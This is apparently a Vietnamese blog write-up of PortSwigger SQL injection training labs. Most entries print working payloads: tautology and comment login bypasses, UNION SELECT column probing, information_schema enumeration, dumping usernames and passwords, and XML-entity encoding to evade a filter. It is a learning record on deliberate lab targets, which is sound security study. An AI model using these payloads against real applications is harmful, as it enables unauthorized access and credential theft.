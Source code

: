 ```yaml
---
title: SQL Injection Labs
date: '2022-12-24'
tags: ['porswigger', 'sql', 'injection','sqlinjection']
draft: false
summary: Writeups cua SQL Injection Labs.
images: ['/static/images/ccna/cisco.jpg']
author: ['default']
---
```

**[1.SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)**

- Ta thấy lệnh ```filter?``` sẽ truy xuất dữ liệu. Dùng ```filter?category=Pets'+or+1=1--'``` sẽ hiện ra toàn bộ thông tin sản phẩm.

**[2.SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)**

![image](https://user-images.githubusercontent.com/61643034/209037070-e5b60413-e259-47d7-9a2d-28b3c433fc0f.png)
- Sử dụng Burp Suite để chặn và sửa đổi yêu cầu đăng nhập.
- Sửa đổi tham số, cung cấp cho nó giá trị: ```usernameadministrator'--```

**[3.SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
- Mục đích của bài này là xác định số trường của query.
- Theo gợi ý thấy chèn sau category=? 1 đoạn ```'+UNION+SELECT+NULL,NULL--```
- Kết quả trả về là internal server -> thừa hoặc thiếu số lượng trường trong bảng -> thêm 1 trường vào -> query trở thành ```filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- ```

**[4.SQL injection UNION attack, finding a column containing text ](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**

- Bài này không chỉ cần xác định số trường của query mà còn cả vị trí của text string nữa.
- Cùng 1 trang web query nên ta biết chắc query này cũng sẽ có 3 cột
- Thử payload ```'+UNION+SELECT+'a',NULL,NULL--``` -> màn hình hiện lên bắt nhập string bắt buộc là ```'QCQTlQ'``` -> Enter
- Vẫn bị lỗi internal server -> thử vị trí của string thành cột 2, hoặc 3 -> ```'+UNION+SELECT+NULL,'QCQTlQ',NULL--``` -> done

**[5.SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**

- Theo mô tả, ta thấy trong database có bảng khác tên là users và bảng này có 2 cột ```username``` và ```password```.
- Thử payload ```'+UNION+SELECT+'a','a'--``` -> Lăn xuống thấy trả về 2 string ***a***
- Thay thành ```'+UNION+SELECT+'username','password'--```
- Màn hình sẽ show ra nhiều hàng hiển thị nhiều tài khoản -> lọc lại thấy có tài khoản ```administrator```
![image](https://user-images.githubusercontent.com/61643034/209432735-55ce8a1f-04e6-4e5b-8a47-04a90503dbaf.png)
 
 -> Click vào trang login -> nhập username và password và -> done
 
 **[6.SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**

- Tương tự 3.3,thử payload ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--``` 
![image](https://user-images.githubusercontent.com/61643034/209439384-7f5fc4e3-81c4-4312-8821-80c683513ebf.png)

 -> Click vào trang login -> nhập username và password và -> done
 
 **[7.SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

- Thử payload ```'+UNION+SELECT+'a',+NULL+FROM+v$version--``` 
- Thông tin của Oracle sẽ hiện ra và done!

 **[8.SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+@@version,+NULL#``` đây là payload dùng để show version -> sau đó có được version ```'8.0.31-0ubuntu0.20.04.2'``` thì thay ```@@version``` thành version vừa kiếm được. Vậy là xong rồi ^^

**[9.SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` đây là payload dùng để show tên các table có trong database, chúng ta sẽ cần nó để tìm tới table chứa ``user `` rồi thấy có 1 table tên là ```users_gwglpg``` rất khả nghi =)))
- Thử truy xuất dữ liệu xem có gì nào. Sửa pay load lại 1 xíu thành ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gwglpg'--``` -> ta được ```username_jsoxhc``` và ```password_tppahp```
- Giờ cùng dùng payload cuối nào ```'+UNION+SELECT+username_jsoxhc,+password_tppahp+FROM+users_gwglpg--``` 
![image](https://user-images.githubusercontent.com/61643034/209443750-96e84f6a-b582-40ce-8796-4383a022bdf8.png)

- Vào ***My Account*** rồi login với tài khoản admin trên là xong =)))
- 
**[10.]()**

**[11.]()**
 
**[16.SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
![image](https://user-images.githubusercontent.com/61643034/209040423-3270052e-3a07-4225-9431-70a5c5d6b9cc.png)**

- Truy cập trang web, ở burpsuite, bật interception on
- Bấm vào ```check``` -> vào check request trả về
- Trong request có trường ```storeID``` -> sửa thành ```1+1``` -> trả về 144 unit -> bằng với storeID=2
- Nhập 1 lệnh attack vào giữa cặp ```<storeID>``` -> trả về attack detected -> bị block
  ![image](https://user-images.githubusercontent.com/61643034/209041177-ab4fe22c-2342-451b-aa22-872c072242b4.png)
- Bây giờ vào extension -> cài Hackvertor -> vào encode -> dec_entries -> dán ```<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>``` vào được output -> copy thả lại vào cặp thẻ ```<storeID>```.
![image](https://user-images.githubusercontent.com/61643034/209444081-694a1c38-9abc-4c49-9bcc-7a908e80d23d.png)
 Và bbooms
![image](https://user-images.githubusercontent.com/61643034/209042766-d1661308-9cbb-42c4-9651-58ebde6e0c14.png)
- Bây giờ, chỉ cần login nữa là xong rồi ^^
